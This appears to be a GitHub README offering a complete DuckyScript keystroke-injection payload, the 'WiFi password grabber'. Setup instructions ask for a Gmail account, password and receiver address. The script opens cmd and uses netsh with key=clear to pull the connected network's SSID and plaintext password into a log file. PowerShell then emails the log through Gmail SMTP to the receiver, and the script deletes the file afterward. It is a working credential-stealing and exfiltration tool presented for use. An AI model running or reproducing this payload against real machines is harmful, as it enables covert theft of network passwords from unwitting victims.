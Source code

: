 ### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send Log.txt to

## **Code**;
```
REM Title: WiFi password grabber
REM Author: Siem
REM Version: 3
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt and emails the contents of Log.txt from a gmail account.
DELAY 3000

REM --> Minimize all windows
WINDOWS d

REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000

REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER

REM --> Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER

REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER

REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER

REM --> Get key
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER

REM --> Delete A.txt
STRING del A.txt
ENTER

REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER

REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER

REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```

### Change log;
1. Original
2. Bug fixes and narrowed commands
3. Send contents of Log.txt instead the file itself

### Suggestions;
**If you have any suggestions, write them down here.**